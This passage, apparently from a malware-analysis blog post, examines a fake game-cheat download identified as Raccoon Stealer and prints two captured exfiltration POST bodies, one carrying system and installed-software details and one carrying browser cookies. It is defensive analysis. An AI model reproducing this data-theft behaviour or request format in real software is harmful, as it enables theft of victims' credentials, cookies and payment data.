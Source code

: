 ![](/assets/images/posts/2023-05-01-FREE-APEX-LEGENDS-HACK-but-really-raccoon-stealer/APIMonitor_SQL_Query.png)

After the executable finishes enumerating through the entire filesystem and extracting relevant data, it then makes several `POST` requests back to the server to exfiltrate this data at the path specified by `token` in the initial configuration file. The body of these request messages includes exactly what was specified in the configuration file: system information, a comprehensive list of applications installed, credentials, cookies, saved credit card information, screenshot of the desktop, and interesting files. This focus on exfiltrating sensitive data matches Raccoon Stealer's typical behavior.

Request 1:
```
--MtAoe1n2XXm40cqt
Content-Disposition: form-data; name="file"; filename="System Info.txt"
Content-Type: application/x-object

System Information:
    - Locale: English
    - Time zone:     - OS: Windows 10 Pro
    - Architecture: x64
    - CPU: Intel(R) Core(TM) i7-10700T CPU @ 2.00GH (4 cores)
    - RAM: 8191 MB
    - Display size: 2560x1354
    - Display Devices:
        0) VMware SVGA 3D

Installed applications:
    7-Zip 22.01 (x64)
    Notepad++ (64-bit x64) 8.4.6
    Process Hacker 2.39 (r124) 2.39.0.124
    Sublime Text 3
    Vim 8.1 (self-installing)
    WinRAR 6.21 (64-bit) 6.21.0
    Microsoft Visual C++ 2010  x64 Redistributable - 10.0.40219
    Python 3.7.9 Utility Scripts (64-bit) 3.7.9150.0
    (.. TRUNCATED ..)

--MtAoe1n2XXm40cqt--
```

Request 2:
```
--KjK4ma99z46dDd7G
Content-Disposition: form-data; name="file"; filename="\cookies.txt"
Content-Type: application/x-object

.c.bing.com    TRUE    /    TRUE    13327963108935076    MR    djEwjj/h6PhIoOYXxECNs9JoIVhaY5uwLX/nv8qWyIM=
.bing.com    TRUE    /    TRUE    13361054308934995    MUID    djEw1haeNG3MrxG0eq54BsvPyQFS0zQl/rQJ4MUqkudRRyD/FNvDsz5/q0sNGj0kXG3GX+FgS7BFKZVQEloO
.msn.com    TRUE    /    TRUE    13361054307371802    MUID    djEw9vJzABKuWAPGFySr/qLCB9GhNMupcUl4ahQfC9AIBG2z2MatLiUzD9E7ALrNxpFzzzmuU/m6V/zsRJ9R
ntp.msn.com    TRUE    /    TRUE    13358894307166718    MicrosoftApplicationsTelemetryDeviceId    djEwvXs6qpAluAuPO5Ri5bv81QZz0IouY5+XKjQfeeEqI0eU7dHG8qZrL4lY0FtrTe6tGFtN5RkXjyzGX0vgVzEC+g==
.msn.com    TRUE    /    TRUE    13361918306371714    USRLOC    djEwucuGRDZe+PTTCHfPkCvzQ7wUMeIGSgceSKzQmA==
.msn.com    TRUE    /    FALSE    0    _EDGE_S    djEwC4ayDzZkvvwgz/kJr0wQkdx1FOxwMcy8OZMjmj+QAQ==
.msn.com    TRUE    /    FALSE    13361054307371785    _EDGE_V    djEwxX/fqq4R0/71+uTHD3fNc9rMS5gcI6jUp8RY0qA=
.msn.com    TRUE    /    FALSE    13358894311000000    _SS    djEwZJwf9Yg7+uN+03aG4eQfRrUj9ow0wYU3SYT6XxT/1oADUg==
```